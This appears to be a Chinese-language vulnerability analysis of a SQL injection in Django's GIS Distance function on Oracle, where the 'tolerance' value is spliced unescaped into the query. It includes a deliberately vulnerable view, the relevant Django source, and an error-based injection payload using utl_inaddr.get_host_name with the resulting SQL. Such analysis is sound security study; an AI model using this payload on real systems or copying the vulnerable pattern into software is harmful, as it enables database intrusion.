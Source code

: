 首先要说的是这个环境超级难搭。Oracle 数据库+Django 需要 9G 的磁盘空间，而且数据库启动需要不少时间，于是 django 抽风不停重启，要等好久才能正常。

## 漏洞1

漏洞利用的是 GIS（地理信息查询系统），有漏洞的代码如下：

```python
def vuln(request):
    query = request.GET.get('q', default=0.05)
    qs = Collection.objects.annotate(
        d=Distance(
            Point(0.01, 0.01, srid=4326),
            Point(0.01, 0.01, srid=4326),
            tolerance=query,
        ),
    ).filter(d=D(m=1)).values('name')
    return HttpResponse(qs)
```

在 Oracle 中，tolerance（容差）是指在执行搜索操作时，用于确定匹配结果的模糊度或接受程度的设置。它用于控制查询的灵活性，以便能够返回与指定条件相似但不完全匹配的结果。tolerance 可以应用于不同的搜索操作，例如文本搜索、地理位置搜索等。它允许你指定查询条件与目标数据之间的差异范围，并确定允许的模糊匹配程度。

上述代码对应的查询语句为：

```sql
SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (0.01, 0.01),4326), SDO_GEOMETRY(POINT (0.01, 0.01),4326), 0.05) =  1.0 FETCH FIRST 21 ROWS ONLY;
```

查看 https://github.com/django/django/blob/335c9c94acf263901fb023404408880245b0c4b4/django/contrib/gis/db/models/functions.py，可以看到，`as_oracle` 函数为：

```python
def as_oracle(self, compiler, connection, **extra_context):
    tol = self.extra.get('tolerance', self.tolerance)
    return self.as_sql(
        compiler, connection,
        template="%%(function)s(%%(expressions)s, %s)" % tol,
        **extra_context
    )
```

`tolerance` 从 `self.extra.get` 导入，该方法会搜索全局变量的值，如果该值不存在，则直接设置为 0.05，并且将其直接传入到新的变量中。之后则不对 tol 进行任何处理直接拼接到 template 字符串中并且传入 `as_sql` 方法。那么官方对于 `as_sql` 的文档是，此方法需要一个SQLCompiler对象，位于`django/db/models/sql/compiler.py`文件中。而我们只需要知道在该对象中有一个`compile()`方法，该方法可以返回一个包含 SQL 字符串的元祖，而 SQLComiler 对象中的 query 变量则是存储直接进行 SQL 查询语句的 SQL 命令。从而两个 Point 分别进入`compile`方法中进行拼接。

我们可以用此方法报错注入，找到数据库版本号：`?q=20) = 1 OR (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null OR (1%2B1`，那么查询就变成了：

```sql
SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (0.01, 0.01),4326), SDO_GEOMETRY(POINT (0.01, 0.01),4326), 20) = 1 OR (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null OR (1+1) = 1.0 FETCH FIRST 21 ROWS ONLY;
```
